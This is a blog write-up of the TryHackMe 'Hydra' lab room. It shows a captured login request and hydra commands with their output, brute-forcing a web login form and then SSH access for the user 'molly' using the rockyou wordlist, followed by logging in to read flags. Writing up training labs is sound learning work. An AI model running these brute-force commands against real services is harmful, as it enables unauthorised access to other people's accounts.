 ```yaml
---
title: "Hydra_writeup.sh"
date: 2020-08-26T14:43:42-04:00
draft: false
toc: false
cover: "img/hydra_cover.gif"
tags:
  - hacking
  - tryHackme
  - writeups
---
```


# Hydra - THM Room 

This is a quick writeup or another "just-me-taking-notes" thing for Hydra TryhackMe's room. This is a pretty raw and quick writeup detailing my process to pawn this room.

Enjoy!

- Please visit This room on TryHackMe by [clicking this link](https://tryhackme.com/room/hydra).
- **PLEASE NOTE:** Passwords and flag values were intentionally masked as required by THM writeups rules. The write-up follows my step by step solution to this box, errors and all.
- Donwload Hydra by clicking [this](https://github.com/vanhauser-thc/thc-hydra) link.


[Task 1] Deploy and compromise the vulnerable machine! 
------------------------------------------------------


Ok we deploy the machine, we open the IP on the browser. We arrive to a login form:

![Login Form](https://i.imgur.com/hhYFnkP.png)

We need to intercept a login request, capture the error message and feed all that information to **hydra** to bruteforce our way in. In my case I used burp to capture the request and copied the login error message from the web itself:

```sh
POST /login HTTP/1.1
Host: 10.10.207.42
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.207.42
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.207.42/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=§s%3AuTOeTMubK4HkZh5O_fBmQyEs82mjMPad.kq4lhxSPBxkOXNiadO8R7w1mqmISpwvQv7Il8KJ1Hzg§
Connection: close

username=§test§&password=§test§
errorMessage: Your username or password is incorrect.
```


We need to construct a **POST** request attack with **hydra**. Lucky us, the room is quite good at providing an example as well as the target Username **molly**:

```sh
hydra -l <username> -P <wordlist> 10.10.207.42 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- <username>: molly
- <Wordlist>: we'll use rockyou.txt
- <URL>: /login

Using the details from the request and the room we fire up our hydra attack:


```sh
┌──(kali㉿kali)-[~/Documents/THM/hydra]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.207.42 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect" -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-26 14:30:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.207.42:80/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "654321" - 17 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "michael" - 18 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "ashley" - 19 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "qwerty" - 20 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "111111" - 21 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "iloveu" - 22 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "000000" - 23 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "michelle" - 24 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "tigger" - 25 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "sunshine" - 26 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "chocolate" - 27 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "password1" - 28 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "soccer" - 29 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "anthony" - 30 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "friends" - 31 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "butterfly" - 32 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "purple" - 33 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "angel" - 34 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "jordan" - 35 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "liverpool" - 36 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "justin" - 37 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "loveme" - 38 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "fuckyou" - 39 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "123123" - 40 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "football" - 41 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "secret" - 42 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "andrea" - 43 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.207.42 - login "molly" - pass "carlos" - 44 of 14344399 [child 5] (0/0)
[80][http-post-form] host: 10.10.207.42   login: molly   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-26 14:30:38

```

With that we obtained Molly's password, if we login into that web login form we'll get our first flag:

![First Flag](https://i.imgur.com/Z9XtHj7.png)

THM{REDACTED_FIRST_FLAG}

Now we need to use hydra again, but this time to Bruteforce Molly's SSH access:

We see a sample attack is like follows:

```sh
hydra -l root -P passwords.txt -t 32 <IP> ssh
```

So we model our second attack following that example and execute it:

```sh

┌──(kali㉿kali)-[~/Documents/THM/hydra]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt -t 32 10.10.207.42 ssh                                                                               1 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-26 14:39:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 32 tasks per 1 server, overall 32 tasks, 14344399 login tries (l:1/p:14344399), ~448263 tries per task
[DATA] attacking ssh://10.10.207.42:22/
[22][ssh] host: 10.10.207.42   login: molly   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 13 final worker threads did not complete until end.
[ERROR] 13 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-26 14:39:35

```

We got Molly's SSH credentials now. Time to look for the last flag:

```sh
┌──(kali㉿kali)-[~/Documents/THM/hydra]
└─$ ssh molly@10.10.207.42                                                                                                                                255 ⨯
The authenticity of host '10.10.207.42 (10.10.207.42)' can't be established.
ECDSA key fingerprint is SHA256:1+x45urBtNteGs0xMVwPnfDikwOijzmb/LA9/vabra0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.207.42' (ECDSA) to the list of known hosts.
molly@10.10.207.42's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.


Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-207-42:~$ ls
flag2.txt
molly@ip-10-10-207-42:~$ cat flag2.txt
THM{SECOND_FLAG_REDACTED}
```
That's all there is to it.


As usual, happy hacking.

{{< thm_badge >}}
